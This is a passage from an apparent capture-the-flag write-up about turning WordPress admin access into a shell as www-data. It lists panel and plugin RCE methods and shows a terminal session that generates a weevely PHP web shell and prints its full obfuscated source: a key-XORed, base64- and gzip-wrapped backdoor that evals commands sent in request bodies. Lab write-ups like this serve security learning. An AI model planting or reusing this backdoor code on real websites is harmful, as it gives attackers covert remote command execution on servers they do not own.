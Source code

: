 Login

![](../../attachment/9493cc67f9d5497c3eb51b71b71bd8e7.png)

### Shell as www-data

> https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress

There are two methods to RCE after getting in wordpress admin dashboard

- Panel RCE
- Plugin RCE

#### Panel RCE

```bash
┌──(kali㉿kali)-[~/thm/internal/www]
└─$ weevely generate s s
Generated 's' with password 's' of 761 byte size.

┌──(kali㉿kali)-[~/thm/internal/www]
└─$ cat s
<?php
$m='eg_matECch("/$kh(.EC+)$kf/EC",@file_geECECt_contents("pEChpEC://inpuECt"),$m)==EC1) {ECEC@ob_start()';
$v=';@ob_enECd_cEClean();$r=EC@bECase64_eECncode(EC@x(@gzcomECpECressEC($o),$ECk));print("$ECpEC$kh$r$kf");}';
$e=';@eECval(EC@gzunECcompreECss(@xEC(@bECaECse64_decode(EC$ECm[1]EC),$k)));$o=@ob_gECetEC_conECtents()';
$P='Cr($j=0;($j<$c&EC&$i<$lEC);$jEC++,$i++EC){$oEC.=$t{EC$i}^$k{$ECj};}}retECuECrn $oEC;}if (@prECEC';
$T='$k="03c7ECECc0ac";$kh=EC"e395ECd80EC182ECdb";$kf="0EC7aECe2cEC30f034";$p="Fwc3AECEC4lqKESuTECyXY';
$o=str_replace('zP','','zPzPcreatezP_zPfuzPnzPction');
$W='";functiECon x($tEC,$kEC){$c=strECECleECn($k);$l=strlen(EC$ECt);$o="EC";for($i=0;EC$i<EC$l;){fECoE';
$H=str_replace('EC','',$T.$W.$P.$m.$e.$v);
$u=$o('',$H);$u();
?>
```
